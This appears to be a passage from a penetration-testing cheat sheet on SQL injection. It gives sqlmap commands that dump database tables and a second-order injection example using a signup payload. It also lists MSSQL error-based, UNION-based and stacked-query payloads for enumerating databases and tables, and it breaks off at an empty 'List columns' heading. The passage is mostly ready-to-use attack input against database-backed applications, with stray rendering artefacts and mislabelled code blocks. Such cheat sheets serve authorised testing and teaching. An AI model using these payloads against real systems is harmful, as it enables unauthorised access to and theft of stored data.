 ```Python
```
```Python
sqlmap -r r --level=2 --dump
```
```Python
sqlmap -r r --level=2 -T <TABLENAME> --dump
```
### Second-order
**Injection achieved when query is executed not at the injection point, but when the query is retrieved.**
- Signup endpoint, you signup with the user `' or 1=1-- -` and the query only returns data when you navigate to the “accounts” page after your user is created.

## MSSQL

#### **List databases**

Normal
```sql
Select name from sys.databases
```
Error based
```sql
cast((SELECT name FROM sys.databases ORDER BY name OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
Union Based
```sql
' UNION SELECT name, NULL FROM master..sysdatabases --
```
Stacked Queries
```sql
; SELECT name FROM master..sysdatabases; --
```

#### List Tables:
Normal
```sql
select * from app.information_schema.tables;
```
Error based`
```sql
cast((SELECT TABLE_NAME FROM exercise.information_schema.tables ORDER BY name OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
Union Based
```sql
' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables --
```
Stacked Queries
```sql
; SELECT * FROM information_schema.tables; --
```
#### List columns
